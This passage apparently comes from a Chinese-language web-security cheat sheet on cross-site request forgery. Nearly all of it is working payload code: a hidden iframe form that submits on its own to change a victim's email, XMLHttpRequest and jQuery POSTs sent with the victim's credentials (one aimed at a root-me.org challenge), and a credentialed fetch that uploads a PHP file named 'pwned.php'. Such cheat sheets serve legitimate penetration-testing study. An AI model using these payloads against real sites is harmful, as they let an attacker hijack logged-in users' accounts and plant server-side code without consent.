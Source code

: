 ```html
</html>
```
### 通过 iframe 发送表单 POST 请求
```html
<!--
The request is sent through the iframe withuot reloading the page
-->
<html>
<body>
<iframe style="display:none" name="csrfframe"></iframe>
<form method="POST" action="/change-email" id="csrfform" target="csrfframe">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### **Ajax POST 请求**
```html
<script>
var xh;
if (window.XMLHttpRequest)
{// code for IE7+, Firefox, Chrome, Opera, Safari
xh=new XMLHttpRequest();
}
else
{// code for IE6, IE5
xh=new ActiveXObject("Microsoft.XMLHTTP");
}
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
type: "POST",
url: "https://google.com",
data: "param=value&param2=value2"
})
</script>
```
### multipart/form-data POST 请求
```javascript
myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
method: "post",
body: myFormData,
credentials: "include",
headers: {"Content-Type": "application/x-www-form-urlencoded"},
mode: "no-cors"
});
```